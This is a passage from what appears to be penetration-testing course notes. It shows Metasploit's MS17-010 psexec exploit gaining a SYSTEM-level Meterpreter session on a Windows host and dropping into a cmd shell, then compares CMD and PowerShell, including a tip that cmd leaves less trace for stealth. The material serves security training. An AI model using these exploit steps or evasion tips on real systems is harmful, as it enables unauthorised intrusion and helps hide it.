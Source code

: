 <mark style="color:orange;">**Execute Our Attack**</mark>

{% code fullWidth="true" %}
```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```
{% endcode %}

5. <mark style="color:orange;">**Identify the Native Shell.**</mark>

**Identify Our Shell**

{% code fullWidth="true" %}
```shell-session
meterpreter > shell

Process 4844 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
{% endcode %}

When we executed the Meterpreter command `shell`, it started another process on the host and dropped us into a system shell. Can you determine what we are in from the prompt? Just seeing `C:\Windows\system32>` can clue us in that we are just in a `cmd.exe shell`. To make sure, simply running the command help from within the shell will also let you know. If we were dropped into PowerShell, our prompt would look like `PS C:\Windows\system32>`. The PS in front lets us know it is a PowerShell session. Congrats on dropping into a shell on our latest exploited Windows host.

***

### <mark style="color:red;">CMD-Prompt and Power\[Shell]s for Fun and Profit.</mark>

CMD shell is the original MS-DOS shell built into Windows. It was made for basic interaction and I.T. operations on a host. Some simple automation could be achieved with batch files, but that was all. Powershell came along with a purpose to expand the capabilities of cmd. PowerShell understands the native MS-DOS commands utilized in CMD and a whole new set of commands based in .NET. New self-sufficient modules can also be implemented into PowerShell with cmdlets. CMD prompt deals with text input and output while Powershell utilizes .NET objects for all input and output. Another important consideration is that CMD does not keep a record of the commands used during the session whereas, PowerShell does. So in the context of being stealthy, executing commands with cmd will leave less of a trace on the host. Other potential problems such as `Execution Policy` and `User Account Control (UAC)` can inhibit your ability to execute commands and scripts on the host. These considerations affect `PowerShell` but not cmd. Another big concern to take into account is the age of the host. If you land on a Windows XP or older host ( yes, it's still possible..) PowerShell is not present, so your only option will be cmd. PowerShell did not come to fruition until Windows 7. So to sum it all up:

